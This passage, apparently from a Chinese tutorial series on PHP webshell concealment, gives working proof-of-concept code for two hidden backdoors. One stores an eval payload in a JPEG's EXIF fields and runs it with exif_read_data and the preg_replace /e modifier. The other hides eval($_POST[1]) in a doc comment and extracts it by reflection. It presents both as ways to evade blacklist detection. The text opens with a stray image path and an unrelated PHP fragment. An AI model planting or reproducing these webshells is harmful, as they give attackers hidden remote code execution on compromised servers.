 ```php
            echo "$key.$name: $val
\n";
        }
        echo "
";
    }
?>
```

这里提出了一种隐藏webshell的新思路

1. 和传统的图片木马不一样，传统的图片木马就是简单的利用type命令把webshell代码接在一个正常的图片尾部，然后在另一个脚本中使用include包含进来，PHP解析解析引擎会忽略在 PHP看来毫无意义的图片数据的乱码，而去执行在文件结尾的PHP代码，这是一种很好的利用方式
2. 而关于这种图片木马，可以有一种更加精确的利用方式，图片(也就是EXIT格式的文件)的每个区段都是有精确意义的，我们可以将我们的webshell准确地放置在这些指定的区域， 然后使用exif\_read\_data去读取读取出来，然后使用preg\_replace的"e"开关去动态执行，或者使用动态函数去动态执行
3. 这个可以用来规避include那种类型的黑名单检测&#x20;

将webshell代码放置在EXIT的头部区域中，这里挑选:\
&#x20;IFD0->&#x20;

1. ImageDescription: /.\*/e&#x20;
2. Subject: eval($\_POST\[1]) (注意这里要使用winhex来进行ASCII字符的修改)

```php
<?php  
    //FILE    FileName, FileSize, FileDateTime, SectionsFound
    $exif = exif_read_data('img.jpg', 'FILE', true);
    var_dump($exif['IFD0']['ImageDescription']);
    var_dump($exif['IFD0']['Subject']);
    preg_replace($exif['IFD0']['ImageDescription'], $exif['IFD0']['Subject'],'');
    //die();
?>
```

### 0x27: 将数据放在注释中并利用反射机制获取webshellcode

1

http://www.8090sec.com/suixinbiji/111568.html

黑客将webshell放到了/\*\*/注释中，然后利用类的反射机制获取到，进行动态函数的执行

PHP的反射类机制

[ReflectionClass](http://cn2.php.net/manual/zh/reflectionclass.construct.php)

[ReflectionClass::getDocComment](http://cn2.php.net/manual/zh/reflectionclass.getdoccomment.php) — 获取文档注释

这是最终的poc：

```php
<?php  
    /**   
    * eval($_POST[1]);
    */  
    class TestClass { }  
    $rc = new ReflectionClass('TestClass');  
    //获取当前文档的注释
    $comment = $rc->getDocComment();
    //die(var_dump($comment));

    $pos = strpos($comment,'eval');
    //die(var_dump($pos));  

    $eval=substr($comment,$pos,16);  
    //die($eval);
    eval($eval);
?>
```